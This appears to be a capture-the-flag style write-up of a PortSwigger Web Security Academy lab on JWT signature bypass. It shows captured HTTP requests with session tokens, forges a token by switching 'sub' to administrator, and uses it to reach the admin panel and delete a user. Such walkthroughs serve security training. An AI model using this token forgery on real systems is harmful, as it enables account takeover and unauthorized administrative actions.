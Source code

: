 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e12a4920-a21c-4d2b-965f-dffe3dea8c9f)

## Overview :

JWT libraries typically provide one method for verifying tokens and another that just decodes them. For example, the **Node.js** library **jsonwebtoken** has `verify()` and `decode()`.

Occasionally, developers confuse these two methods and only pass incoming tokens to the `decode()` method. This effectively means that the application doesn't verify the signature at all. 

## Solution :

Login to the website as wiener using the provided credentials.

In the HTTP history tab we can see 3 requests have been highlighted as it has JWT.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d37294ca-00d4-4e78-93ba-c892085b17a3)

Send the *GET* request to the uri `/my-account?id=wiener` to repeater. Since it is the request that identifies the user. 

```http
GET /my-account?id=wiener HTTP/2
Host: 0aef00060493cca0807926f7003e00e9.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aef00060493cca0807926f7003e00e9.web-security-academy.net/login
Connection: keep-alive
Cookie: session=eyJraWQiOiI3ZTUzNjY5MS00MGQ4LTQ3MGUtYTdkZC1kMWYxYTg5ZmYwZGUiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NTYyNzI4OH0.llpcQqdSn9hrRmaHEa-tkzGWfXBaiSTOZmaJSyx2_iRuWOXpLP3BdhL71DiqMvZJw9hYUhZKjAhRWhRS7glXTP6mFn6haB-9icqGC7uRcCrPfBMLlVX9bp9l63qnvgkLsRu6VuonPAtfa7zSC1IVW8kUnZ13nQIz90OCKybsznObTxNBCllTaE_FOJRFxkxaLd7L_zZmR_1EvFyLjHfE3D3T2uahWyEGizwmmgl8SA8A26gOQL9RmTZcQ3QCEgXbJnZkbKhKnj3ccNnQRgmYGnpmCBgc9gVk_RZfZEKjujUMukIXAjdOyEhYH7_qz716xbLZWWzzY7hhepeCCYa5EQ
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

Use [jwt.io](https://jwt.io) to decode the header and payload to decode the JWT token.

**Header -**

```json
{
  "kid": "4d37d562-2a93-4029-9e59-72f3c02cf736",
  "alg": "RS256"
}
```
**Payload -**

```json
{
  "iss": "portswigger",
  "sub": "wiener",
  "exp": 1695631409
}
```

In the **JSON WEB TOKEN** tab, change the value of `sub` from **wiener** to **administrator** & click sign.

The following dialog box appears, 

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/010db7c0-d852-4d76-9bd8-d8458e5d6c1d)

Just hit *OK* & we'll get a new JWT token.

```
eyJraWQiOiI0ZDM3ZDU2Mi0yYTkzLTQwMjktOWU1OS03MmYzYzAyY2Y3MzYiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2OTU2MzE0MDl9.XdAQXkCJZrTXRGbNM6_p8wRSHJNl2ZBf4F8RvVyB0lQ
```

Replace this token with the one that is already present in the request & send it.

Now we can see a link to **Admin panel.**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f4f23a50-e170-4e2c-bf25-c70e1cd26ef0)

But when we enter the admin panel , the token is again replaced with wiener's so we are restricted to access the admin panel at **/admin.**

```http
GET /admin HTTP/2
Host: 0ab500ca04aad84980df9e730012000a.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: https://0ab500ca04aad84980df9e730012000a.web-security-academy.net/login
Cookie: session=eyJraWQiOiI0ZDM3ZDU2Mi0yYTkzLTQwMjktOWU1OS03MmYzYzAyY2Y3MzYiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NTYzMTQwOX0.TbV3LMDgUPu62MiIJu7nniNJl7GUu5M8h0paaJsbLydgHmyBgYYXOy8Z5jLXWpK8DVMDpI-v4PKBo6hNQqocX2NODEOotnhO1WdaXWAaPg2J3N-UPAHHvz53rH3Iu97JzLztJFje_-KpDnQ43RaGBwMWy_zPO0jtW3w-aXQlv5kks4WZZTADVl1J0YDu6OWIg88cquIoLLHavTBIB7VZWMVVnpqadaXUpbzYvCptJOpV13ozTSbBz_ZuPa0NPrxzR91_rDJJCDKv6lxxrFus4rVCoZQv-CvRqanL736ZG7ptHkhTP527oqVssCkSKy79eZSGvhWuhPIgnZz1nec5pA
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3830519f-31d4-4a6e-8b32-364162e5bff7)


Repeat the same process by replacing the JWT token with the one which we newly created & forward the request.

Delete the user carlos to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a83200bc-15b5-45a4-872b-6190f02e8a8e)
